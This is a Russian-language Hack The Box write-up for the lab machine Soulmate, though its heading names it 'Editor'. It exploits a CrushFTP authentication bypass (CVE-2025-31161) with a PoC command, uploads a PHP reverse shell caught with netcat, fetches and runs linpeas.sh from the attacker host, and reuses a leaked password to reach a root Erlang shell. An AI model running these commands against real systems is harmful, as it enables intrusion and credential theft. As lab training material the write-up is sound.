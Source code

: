 # 📝 Write-up: Editor (Hack The Box)

![editor](https://app.hackthebox.com/machines/Soulmate)

**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `soulmate.htb` — `10.10.11.86` (добавить в `/etc/hosts`)
**Link:** [Soulmate @ HTB](https://app.hackthebox.com/machines/Soulmate)

---

## 🎯 Summary

Soulmate — лёгкая Linux-машина. Ключевые шаги:

* Первичный доступ через **уязвимость аутентификации в CrushFTP (версии до 11.3.1)** — CVE-2025-31161 (или CVE-2025-2825, PoC).
* Горизонтальная эскалация: переиспользование пароля из конфигурации.
* Эскалация до root через небезопасную конфигурацию Erlang/OTP SSH-демона.

---

## 🔒 Prerequisites / Notes

* Это write-up для учебной (CTF / lab) среды Hack The Box — **не запускать против продакшн-систем**.
* В моих примерах `soulmate.htb` резолвится в `10.10.11.86`. Добавьте в `/etc/hosts`:

```bash
# добавить на атакующей машине
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```

* Я удалил явные плейсхолдеры и указал, где подставлять свои значения: `<YOUR_IP>` — IP вашей атакующей машины для обратного шелла.

---

## 🔍 Reconnaissance

Сначала порт-скан `nmap`:

```bash
nmap -sC -sV -p22,80,443,20 soulmate.htb
```

Пример вывода (сокращённо):

```
PORT    STATE SERVICE   VERSION
20/tcp  open  ftp-data?
22/tcp  open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http?
443/tcp open  https?
```

---

## 🕵️ Enumeration

### 🌐 HTTP — порт 80

* При переходе на [http://soulmate.htb](http://soulmate.htb) отображается сайт для знакомств.
* Запустил `ffuf` для поиска директорий — результаты:

```
index.php               [Status: 200, Size: 16688, Words: 6110, Lines: 306, Duration: 687ms]
login.php               [Status: 200, Size: 8554, Words: 3167, Lines: 178, Duration: 67ms]
register.php            [Status: 200, Size: 11107, Words: 4492, Lines: 238, Duration: 72ms]
profile.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 73ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 65ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 67ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 133ms]
```

* При попытке залогиниться с помощью SQL-инъекций сервер вел себя странно.
  ![Странность](imageSql.png)

---

### 🌐 Порт 20 — FTP

* К порту `20` подключиться не удалось.
* Запустил `ffuf` для поиска субдоменов:

```bash
ffuf -u http://10.10.11.86 -H "Host: FUZZ.soulmate.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4
```

* Результат:

```
ftp.soulmate.htb [Status: 302 Redirect]
```

Добавьте в `/etc/hosts`:

```bash
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```

---

### ⚡ Порт 20 — CrushFTP Version: 11.3.0_2

* Обнаружен интерфейс со страницей логина и версией CrushFTP; найдены уязвимости для этой версии: `crushftp-CVE-2025-2825` (PoC) и `CVE-2025-31161` (PoC).

* С помощью `crushftp-CVE-2025-2825` удалось получить список пользователей админ-панели.
  ![Список пользователей](image1.png)

* Через CVE-2025-31161 удалось, от имени root, создать нового пользователя без аутентификации:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user xss --password xss123
```

* Удалось войти в систему как `xss`.
  ![Админ-панель](image2.png)

* На странице `http://ftp.soulmate.htb/WebInterface/UserManager/index.htm` найден список пользователей. Я изменил их пароли и вошёл под одним из них — у `ben` обнаружились интересные директории с файлами:

```
/IT/ – файлы информационных технологий
/ben/ – пользовательская директория
/webProd/ – директория веб-продукции (целевая для загрузки файлов)
```

* Я загрузил в `webProd` файл `monkey.php` для обратной оболочки. На атакующей машине запустил `nc -lnvp 4444`, затем открыл `http://soulmate.htb/monkey.php` и получил обратную оболочку.

---

## Получение обратной оболочки

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.184] from (UNKNOWN) [10.10.11.86] 44832
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

---

## Перечисление системы

* Для удобства поднял локальный простейший HTTP-сервер на атакующей машине:

```bash
python3 -m http.server 8000
```

* На целевой машине скачал и выполнил `linpeas.sh`:

```bash
cd /tmp/
wget http://10.10.14.184:8000/linpeas.sh -O lin.sh
chmod +x lin.sh
./lin.sh
```

---

### Обнаружение интересного процесса

```
root  1048  0.0  1.8 2260044 72276 ? Ssl 16:06 0:03 /usr/local/lib/erlang_login/start.escript -B
```

* Внутри скрипта найдены конфиденциальные данные пользователя `ben`:

```bash
cat /usr/local/lib/erlang_login/start.escript
.......
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "HouseH0ldings998"}]}
```

---

### Получение user.txt

* Подключился по SSH, используя креды `ben`:

```bash
ssh ben@soulmate
Password: HouseH0ldings998
```

* Первый флаг:

```bash
ben@soulmate:~$ cat user.txt
81b8219692204e627f7e41a11e42b26b
```

---

## Эскалация привелегий до root

* Проверил права через `sudo -l`:

```bash
ben@soulmate:~$ sudo -l
[sudo] password for ben:
Sorry, user ben may not run sudo on soulmate.
```

---

### Обнаружение подозрительного процесса на порту 2222

* Просмотр активных портов показал сервис на порту `2222` — это Erlang SSH, запущенный от root.

* Попытался подключиться локально по этому порту, используя учётные данные `ben`:

```bash
ben@soulmate:~$ ssh ben@localhost -p 2222
Password: HouseH0ldings998
```

* Получил Erlang-оболочку:

```
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

* Через `os:cmd/1` в этой оболочке выполнил системную команду и обнаружил, что она работает от root:

```erlang
(ssh_runner@soulmate)1> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```

* С помощью этой оболочки прочитал `root.txt`:

```erlang
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
```

![root.txt](image.png)

---

## Заключение

"Soulmate" на Hack The Box — отличный вариант для тех, кто только начинает разбираться в пентесте. На этой машине можно отработать основы взлома веб-приложений, работу с реверс-шеллами и способы получения прав root.

Спасибо, что дочитали! Надеюсь, этот гайд оказался полезным и поможет вам покорять другие хакерские полигоны.
